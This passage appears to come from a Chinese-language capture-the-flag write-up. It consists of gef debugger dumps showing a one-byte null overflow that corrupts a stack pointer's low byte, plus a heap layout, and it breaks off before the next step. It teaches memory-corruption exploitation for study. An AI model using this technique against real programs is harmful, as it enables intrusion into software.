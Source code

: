     gef➤  x/50gx 0x7ffdd7115d48
    0x7ffdd7115d48:	0x00007f79200005e8	0x0000000000000000
    0x7ffdd7115d58:	0x00007f792034a8e0	0x00007ffdd7115e30
    0x7ffdd7115d68:	0x00007f792000160e	0x0000000000000000
    0x7ffdd7115d78:	0x00007f791fff4c6a	0x0000558a13c47980
    0x7ffdd7115d88:	0x00007ffdd7115e30	0x0000000100000000
    0x7ffdd7115d98:	0x0000000000000000	0x00007ffdd7115e90
    0x7ffdd7115da8:	0x00007f792034a8e0	0x00007ffdd7115e30
    0x7ffdd7115db8:	0x0000000000000000	0x00007ffdd7115f90
    0x7ffdd7115dc8:	0x0000000000000000	0x0000000000000000
    0x7ffdd7115dd8:	0x00007f791fff3b7d	0x0000000000000000
    0x7ffdd7115de8:	0x00007ffdd7115e20	0x0000558a13c47980
    0x7ffdd7115df8:	0x0000558a13c4813b	0x0000004013c47980
    0x7ffdd7115e08:	0x00007ffdd7115e30	0x0000000000000000
    0x7ffdd7115e18:	0x0000558a143f4140	0x00007ffdd7115e80
    0x7ffdd7115e28:	0x0000558a13c4818f	0x0000558a13000000
    0x7ffdd7115e38:	0x0000007b1fff57fa	0x4343434343434343
    0x7ffdd7115e48:	0x4343434343434343	0x4343434343434343
    0x7ffdd7115e58:	0x4343434343434343	0x0043434343434343
    0x7ffdd7115e68:	0x0000558a143f4100<---name_ptr	0x0000558a13c48248
    0x7ffdd7115e78:	0x883183485a977c00	0x00007ffdd7115e90
    0x7ffdd7115e88:	0x0000558a13c47b8b	0x00007ffdd7115eb0
    0x7ffdd7115e98:	0x0000558a13c47ad3	0x00007ffdd7115f90
    0x7ffdd7115ea8:	0x0000000000000001	0x0000558a13c481c0
    0x7ffdd7115eb8:	0x00007f791ffa6830	0x00007ffdd7115f98
    0x7ffdd7115ec8:	0x00007ffdd7115f98	0x0000000120112608
可以看到因为截断，原本的ptr的低字节被我们修改成了\x00，也就是截断。
看一下堆布局：

    gef➤  heapls
               ADDR             SIZE            STATUS
    sbrk_base  0x56084fb9a000
    chunk      0x56084fb9a000   0x20            (inuse)
    chunk      0x56084fb9a020   0x20            (inuse)
    chunk      0x56084fb9a040   0x20            (inuse)
    chunk      0x56084fb9a060   0x30            (inuse)
    chunk      0x56084fb9a090   0x20            (inuse)
    chunk      0x56084fb9a0b0   0x20            (inuse)
    chunk      0x56084fb9a0d0   0x20            (inuse)
    chunk      0x56084fb9a0f0   0x20            (inuse)
    chunk      0x56084fb9a110   0x20            (inuse)
    chunk      0x56084fb9a130   0x20            (inuse)
    chunk      0x56084fb9a150   0x30            (inuse)
    chunk      0x56084fb9a180   0x20e80         (top)
    sbrk_end   0x56084fbbb000
    gef➤  x/8gx 0x56084fb9a0f0
    0x56084fb9a0f0:	0x000056084fb9a100	0x0000000000000021
    0x56084fb9a100:	0x7878787878787878	0x7878787878787878<---name
    0x56084fb9a110:	0x000000deadbeef11	0x0000000000000021
    0x56084fb9a120:	0x0000000000000000	0x0000000000000002
    gef➤  
这是调用eat时的栈结构:
